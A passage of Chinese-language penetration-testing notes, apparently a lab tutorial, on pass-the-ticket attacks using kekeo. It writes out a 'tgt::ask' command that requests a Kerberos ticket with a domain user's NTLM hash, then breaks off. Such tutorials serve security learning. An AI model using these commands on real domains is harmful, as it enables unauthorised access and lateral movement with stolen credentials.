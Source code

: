         ![image.png](image%2010.png)
        

### 使用`kekeo`进行票据传递

通过`kekeo`来生成票据，然后导入，需要得到用户`ntlm Hash`或者`aes256`密钥值

1. 使用kekeo申请TGT
    
    > 这里拿到的是域内普通用户test的NTLM hash
    > 
    
    ```python
    tgt::ask /user:test /domain:sunset.com /ntlm:95e7c9e155ed6f372fbe791c52a5e345
    ```
    